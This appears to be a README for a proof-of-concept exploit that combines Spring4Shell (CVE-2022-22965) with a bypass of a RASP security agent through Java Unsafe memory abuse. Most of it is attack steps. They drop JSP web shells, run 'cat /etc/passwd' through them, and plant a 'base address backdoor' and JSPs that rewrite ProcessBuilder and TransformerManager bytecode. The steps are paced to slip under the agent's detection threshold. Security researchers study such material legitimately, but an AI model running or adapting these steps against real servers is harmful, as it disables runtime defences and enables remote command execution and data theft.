


This is a PoC where we abuse memory access through unsafe to bypass RASP. The idea is to read the base address of the libjvm and then either read also the symbol or predefine it for a known 
global variable and navigate the memory space until we reach the InstrumentationImpl object representing the agent itself and redefine classes and thus bypass RASP.

We do it step by step to avoid being detected (it looks like when the request parameter exceeds a certain treshold, we get blocked by the agent):
1. mvn clean package
2. cd ..
3. docker build . -t cve-2022-22965-bypass-with-memory-abuse -f bypass-using-memory-abuse/Dockerfile
4. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-bypass-with-memory-abuse
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt 
7. Finally deploy your exploit that should have been blocked normally:
   `   python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="exploit" and trigger curl "http://localhost:8080/exploit.jsp?cmd=cat%20/etc/passwd".
   `

8. Now deploy jvm base address backdoor: 
`   python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="base", now you can get the base address using curl "http://localhost:8080/base.jsp" -> baseAddress`

9. Next deploy Redefine_Transformer_Manager jsp that will trigger redefining the transformerManager bytecode:
`    python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineTransformer", you should the base address provided using the first step and issue  curl "http://localhost:8080/redefineTransformer.jsp?cmd={baseAddress e.g 139963791860840}” 
`

10. Ok now deploy RedefineProcessBuilder using 
`  python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineProcessBuilder" and trigger the redefinition: curl "http://localhost:8080/redefineProcessBuilder.jsp?cmd={baseAddress}”
`
11. Rerun and Enjoy the bypass:
    `curl "http://localhost:8080/exploit.jsp?cmd=cat%20/etc/passwd" `
You may need to update the base address of JvmtiEnvBase::_head_environment, first ssh in the container, find / -name libjvm.so 2>/dev/null, and finally gdb /usr/local/openjdk-11/lib/server/libjvm.so + info variables and then you have it
`0x0000000000f59750  JvmtiEnvBase::_head_environment`
